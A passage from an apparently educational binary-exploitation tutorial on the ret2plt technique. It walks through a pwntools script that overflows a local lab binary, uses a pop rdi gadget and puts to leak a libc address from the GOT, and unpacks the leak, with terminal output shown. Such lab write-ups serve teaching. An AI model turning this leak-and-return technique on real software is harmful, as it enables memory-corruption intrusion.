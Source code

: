 We can now see only our leaked address being print.

```bash
❯ python3 main.py
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 8759
b'\xe0{h\x01\x88x'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

As we can see its still in little-endian format. We know `pack` function in `pwntools` converts hex or integer into little-endian format so we can use another function called `unpack` to reverse it.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) 

io.sendline(payload)

leak = io.recvlines(2)[1]
leak_int = unpack(leak, 'all')
print(hex(leak_int))

io.interactive()
```

```bash
❯ python3 main.py
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 8900
0x732e57e87be0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
